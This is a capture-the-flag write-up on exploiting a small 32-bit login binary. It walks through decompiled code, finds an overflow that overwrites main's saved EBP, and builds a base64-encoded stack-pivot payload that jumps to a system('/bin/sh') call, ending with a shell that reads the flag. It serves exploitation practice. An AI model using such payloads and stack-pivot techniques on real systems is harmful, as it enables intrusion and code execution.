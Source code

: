 # Simple login

## What the program does

Takes input from the standard input and returns some kind of hash out of it.

Example:
```
Authenticate : Hello   
hash : 656a35b2e1593fedfeff660b397bc3f2
```

## Binary examination
- 32 bit
- ELF
- Statically linked
- Canary disabled
- NX bit enabled


## Code Analysis


```c
int main() {
    // -- snip --
    printf("Authenticate : ");
    __isoc99_scanf(&DAT_080da6b5,auth_buffer);
    memset(input,0,0xc);
    local_38 = (void *)0x0;
    decoded_length = Base64Decode(auth_buffer,&local_38);
    if (decoded_length < 0xd) {
        memcpy(input,local_38,decoded_length);
        auth_succeeded = auth(decoded_length);
        if (auth_succeeded == 1) {
            correct();
        }
    }
    else {
        puts("Wrong Length");
    }
    // -- snip --
}
```

So apperantly our input is decoded using base64, and then passed to `auth` function.
If authentication succeeds it returns 1, else returns 0.

```C
uint auth(size_t param_1)
{
  int iVar1;
  undefined local_18 [8];
  char *local_10;
  undefined auStack12 [8];
  
  memcpy(auStack12,input,param_1);
  local_10 = (char *)calc_md5(local_18,0xc);
  printf("hash : %s\n",local_10);
  iVar1 = strcmp("f87cd601aa7fedca99018a8be88eda34",local_10);
  return (uint)(iVar1 == 0);
}
```

If the authentication succeeds it calls to `correct`:

```C
void correct(void)

{
  if (input._0_4_ == -0x21524111) {
    puts("Congratulation! you are good!");
    system("/bin/sh");
  }

  exit(0);
}
```


## Exploitation

### Buffer overflow in `0x08049397`

In this address there's a call to `scanf` with the following format: `%30s`. That means that scanf will take 31 bytes as input, 30 characters + 1 nullbyte.

```C
uint decoded_length;
char auth_buffer [30];
// -- snip --
__isoc99_scanf(&DAT_080da6b5,auth_buffer);
```

since auth_buffer is in length of 30, it will overflow with one byte to
decoded_length.

```bash
pwndbg> x/1wx $esp + 0x3c
0xffffd53c:     0x080481d0
# -- Take input --
pwndbg> x/1wx $esp + 0x3c
0xffffd53c:     0x08048100
```

Couldn't find how exactly this finding helps.


### Buffer overflow in `0x080492ba`

```C
uint auth(size_t param_1)
{
    // -- snip --     
    undefined auStack12 [8];
    // -- snip --     
    memcpy(auStack12,input,param_1);
}
```

As we can see in `main`, param_1's length may be up to 13 bytes: 

```C
// in main
if (decoded_length < 0xd)
```

This means the buffer overflows if we enter a value which is 12 bytes (plus nullbytes). When we do that we'll need to encode our payload with base64.

For example:
`AAAAAAAAAAAA` -> `QUFBQUFBQUFBQUFB`

```sh
$ ./login
Authenticate : QUFBQUFBQUFBQUFB
hash : 58d4c1cabdeaca6e39249ddd24bef9c6
Segmentation fault (core dumped)
```

By running the binary in GDB and providing it with `AAAABBBBCCCC` (encoded) I found out that the segfault is happening since we override the saved EBP (in main) with `CCCC`. 

This means that we have full control of EBP.


### Recap 

**Stack frame**
```
------------------------
     Return Address       
------------------------
       Saved EBP            => CCCC
------------------------
     Local Variables
          ...
```

**`LEAVE` instruction**
```asm
mov esp, ebp
pop ebp
```

**`RET` instruction**
```
pop ecx
jmp ecx
```

### Building the payload

We need a payload that will:
- Set EBP to the middle of our decoded input. After the leave instruction in `main` executes, our customly crafted EBP will be assigned to ESP.
- Build the payload so the 4 bytes from our input that'll be popped by `RET` will be the address that we want to jump into.


**Important values**
- Address to jump to: `0x0804927f`
- Decoded input address: `0x0811eb40`


Our payload needs to be:
'AAAA' || [Address to jump] || [Input address]

The input address will first point to `AAAA`, and when the leave instruction executes it'll increase ESP by 4, which means it'll point to the address we want to jump into.

This address will be poped by `RET` and we should get a shell.

```python
In [26]: payload = b'AAAA' + p32(0x0804927f) + p32(0x0811eb40)                                       

In [27]: base64_encode(payload)                   
Out[27]: (b'QUFBQX+SBAhA6xEI\n', 12)

```

## Conclusion
I solved this challenge by finding a BOF in `auth` function that let me write anything to `main`'s base pointer. I manipulated that base pointer so it will point to my own buffer, and then when LEAVE and RET execute, I have full control of `main`'s return address ;)

```
Authenticate : QUFBQX+SBAhA6xEI
hash : 6e9c02a33b431aa793c8cf572d8d3b2c
AAA@
ls
flag
log
simplelogin
super.pl
cat flag
control EBP, control ESP, control EIP, control the world~
```
